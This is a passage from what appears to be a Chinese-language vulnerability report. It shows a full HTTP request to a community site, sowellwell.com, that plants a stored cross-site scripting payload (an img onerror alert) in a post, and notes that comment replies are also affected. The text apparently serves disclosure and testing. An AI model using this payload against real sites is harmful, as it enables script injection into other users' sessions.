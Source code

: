        POST /w/v1/community/post/new HTTP/2
        Host: sowellwell.com
        Cookie: xxx
        Content-Length: 232
        Identifier: jssdk_pbRJTpNazMAEeEM2
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
        Sec-Ch-Ua-Mobile: ?0

        {"coid":"","coids":[],"title":"鹅鸭杀有组队的吗？","content":"<div id=\"mobile_article_theme_warm\" class=\"content_markdown_body\"><p>如题<img src=x onerror=alert(document.domain)></p></div>","device_name":"Web","watermark":true,"media":[],"publish_type":"post"}

4. 发送帖子后，进入发送的帖子页面，可以看到弹窗已经触发
![alert](/assets/uu_images/alert.png)
5. 回复评论同样存在该漏洞